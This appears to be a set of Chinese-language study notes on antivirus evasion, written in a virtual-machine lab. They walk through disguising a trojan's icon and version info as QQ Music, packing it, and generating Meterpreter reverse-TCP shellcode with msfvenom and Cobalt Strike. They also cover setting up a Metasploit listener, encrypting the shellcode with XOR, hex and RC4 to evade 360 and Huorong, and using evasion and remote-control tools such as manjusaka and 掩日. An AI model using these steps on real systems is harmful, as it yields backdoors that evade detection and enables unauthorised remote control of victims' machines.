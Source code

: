 # 初识免杀、资源修改、程序加壳
演示环境：windows10虚拟机两台（分别安装360安全卫士和火绒）、kali（使用CS和MSF）

什么是免杀？
全称为反杀毒技术，指的是一种能使病毒木马免于被杀毒软件查杀的技术。
由于免杀技术的涉猎面非常广，其中包含反汇编、逆向工程、系统漏洞等技术，所以难度很高。一般人不会或没能力接触这技术的深层内容。
免杀的操作基本上都是对病毒、木马的内容、特征进行修改，从而躲避杀毒软件的查杀。


杀毒软件？
个人或者社区版：360、电脑管家、金山毒霸、火绒、Defender等等~
企业版杀毒软件：IDS、IPS、EDR（威胁感知、态势感知、流量监控、数据库监控等等~这些设备往往很贵）

杀毒软件查杀病毒一般可以分为三种方式：静态查杀、行为查杀和云查杀
==（1）静态查杀：一般根据特征码识别，然后对文件进行特征匹配。==

==（2）行为查杀（动态查杀）：主要是对其产生的行为进行检测。==

==（3）云查杀：提取出文件的特征上传云端，云端进行检测后返回客户端，对病毒进行查杀。==


## 一、对木马的特征（图标、版本、光标、界面风格等等）进行修改
1，安装资源修改器（HA_Restorator2018_Full_1793_FIX.exe）
2，将需要修改的木马和想要模拟的目标拖进资源修改器
3，将想要添加的目标文件放入资源修改器（以QQ音乐为例），鼠标拖动，给木马添加特征
4，生成新的带有特征的木马程序
仍被杀，可正常上线，且任务管理器迷惑性很强！


## 二、对木马程序加壳
杀毒软件在分析木马的时候，会将木马程序反编译成原始代码、破解他的行为特征从而将木马查杀。那么我们可以将生成出来的木马程序加壳，阻止杀毒软件将木马破译！就可以实现免杀
1，安装吾爱破解工具包（已打包）

2，使用加壳工具对木马程序加壳

总结：可多次加壳，可能加完失去效果。有些冷门加壳的工具，可以直接实现免杀效果。



# ShellCode加密

通过前面的实验，我们发现：直接去给木马程序加壳，免杀效果并不是特别好!因此我们得换一种方式：对木马的源代码，也就是shellcode进行修改和加密，从而实现免杀。

认识shellcode：
shellcode是什么：一段16进制的机器码。
shellcode作用：这段代码在执行之后可以实现对服务器的控制。


shellcode生成方式：
1、使用CS生成shellcode：
![[1729579414690.jpg]]
![[Pasted image 20241022144844.png]]


2、使用kali的MSF生成shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.9 LPORT=4444 -f c -o shellcode.c
#IP地址填写kali机器的IP地址，端口可自定义
#-p payload：有效载荷
#-f format：有效载荷格式
#-o output：输出方式
shellcode可以生成各种格式的，生成出来之后只要执行代码就可以上线了，可用kali系统监听，也可使用CS进行监听。



kali监听：
启动MSF：msfconsole
选择监听模式：use exploit/multi/handler
设置监听的模块(和生成的shellcode保持一致)：set payload windows/meterpreter/reverse_tcp
设置监听的IP地址(监听所有地址)：set lhost 10.0.0.9
设置监听的IP端口（和生成的shellcode保持一致）：set LPORT 4444
开始监听：run


利用shellcode生成exe

![[Pasted image 20241022150435.png]]

==注意：选择生成的模式尽量选择Release模式，根据CS或者MSF生成的shellcode的位数来选择X86或X64==
==Release：发布模式，生成exe文件时会将所有的配置文件全部打包，放置到同等环境下可正常运行。==
==Debug：执行模式，生成exe文件时不完整，运行时很可能会报错缺少dll文件导致无法上线==

运行生成出来的exe文件，CS上线
运行生成出来的exe文件，MSF上线
分别测试完CS和MSF生成的exe后门文件可以上线之后，接下来正式对木马进行免杀处理。
原生态.c有C++、xxx(无效，对应的程序无法上线)、汇编，都被杀毒秒杀



**==免杀的几种实现方式：==**
**==源代码层面：对ShellCode进行加密处理，如异或、转置、AES加密、Base64编码、多轮加密等。==**
**==程序层面：通过对exe可执行程序加壳加花的方式对木马进行混淆，干扰杀毒软件和人的判断。==**



对shellcode编译方式进行更换之后，免杀效果并不好，因此我们尝试对shellcode源代码进行加密（常规的加密方式有：Xor、Aes、Hex、Rc4、Rsa等等。加密算法越复杂，加密效果越好）

1，使用Xor算法（异或）加密：
首先我们使用CS重新生成一个脚本：payload.bin（raw格式）
==CS生成的x86和x64也很影响免杀效果！==

![[Pasted image 20241022153440.png]]
然后将生成的脚本和xor.py放置到一个目录中。使用python将payload.bin调用xor.py进行加密
python xor.py -s payload.bin -d payload.c -n 10 -r out.bin
#注意python的版本问题（python3以上版本可正常生成）
#调用python脚本，将生成的payload.bin这个shellcode文件加密，加密后的文件命名为payload.c

加密后的shellcode放到xor_py.cpp文件中，然后利用VS重新生成项目：
将加密生成的exe文件放入到杀毒软件的环境中：免杀失败！




2，使用Hex算法加密：
（1）使用MSF生成shellcode脚本：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.163.133  LPORT=4444 -f c
（2）将生成出来的shellcode的复制粘贴到文本中，然后去掉"号和替换掉换行”/n“（如下图）
注意代码要带上最后的分号 ";"
（3）利用在线网站转换格式： https://gchq.github.io/CyberChef/

（4）将加密后的文件下载到本地，接着CMD命令行调用工具（hex）生成exe文件：
   LoaderMaker.exe download.dat xl.exe
 #调用LoaderMaker.exe将download.dat生成为xl.exe
（5）生成的xl.exe放置到杀毒软件的环境中

==注意：==
==hex的 LoaderMaker.exe待反编译==
==从网上下载的安全研究工具，别乱点 https://blog.csdn.net/pandazhengzheng/article/details/136044703==


3，使用Rc4加密：
（1）使用cs生成shellcode脚本：
（2）shellcode脚本到rc4.cpp，使用脚本（rc4.cpp）进行加密操作

![[Pasted image 20241022164054.png]]

点击调试之后，会先生成一段rc4加密的值，将这段加密值复制，再次替换掉rc4.cpp代码中shellcode值

（3）点击生成新项目


其他加密方式： https://cloud.tencent.com/developer/article/2201803

其他加密方式： https://blog.csdn.net/lza20001103/article/details/126674254






# 免杀之各类工具的使用
一、manjusaka工具
manjusaka 是一个基于web界面的仿 cobalt strike 做出的远控，也可以生成远控木马。
首先先进行安装：https://github.com/YDHCUI/manjusaka
安装包在工具文件夹：manjusaka-main


安装步骤：
1，将manjusaka-main文件夹上传到kali机器

2，切换到manjusaka-main目录：
cd manjusaka-main

3,赋予服务端最高权限：
chmod 777 manjusaka

4，启动服务端：
./manjusaka

5，本地浏览器访问：http://10.0.0.9:3200/manjusaka
用户名：manjusaka
密码：M3SFyKVxs40r
登陆成功后就是manjusaka的主页，里边显示我们上线的主机和可以执行的操作


在目标设定中生成我们需要执行的木马程序
点击生成NPC，就可以新建远控木马

6，点击下载之后就可以上传到目标主机进行执行
![[Pasted image 20241022165535.png]]

二、潮汐在线免杀平台
平台地址：http://bypass.tidesec.com/
首页如下图：需要注册账号使用。
因为是公开的项目，所以时效性比较差，目前不免杀。
![[Pasted image 20241022165745.png]]
![[Pasted image 20241022165817.png]]



三、==**掩日**==
==掩日是适用于红队的综合免杀工具，在安装环境依赖之后即可使用生成的shellcode生成免杀的木马程序==
安装过程：
1，安装依赖：tdm-gcc和64位go语言环境
go1.17.8.windows-amd64.msi
tdm64-gcc-9.2.0.exe
安装过程都是一路下一步...

2，修改掩日的配置文件：YRconfig.ini
将安装的环境依赖：go.exe和gcc.exe的启动的程序以绝对路径的方式写入对应的位置

3，选择CS生成出来的shellcode文件，然后点击生成即可
![[Pasted image 20241022182145.png]]
4，把生成出来的exe文件，上传到目标服务器。测试健壮性！

掩日是目前最好用的免杀工具：在使用此工具的过程中，请不要把生成的exe文件
上传到在线的公告平台。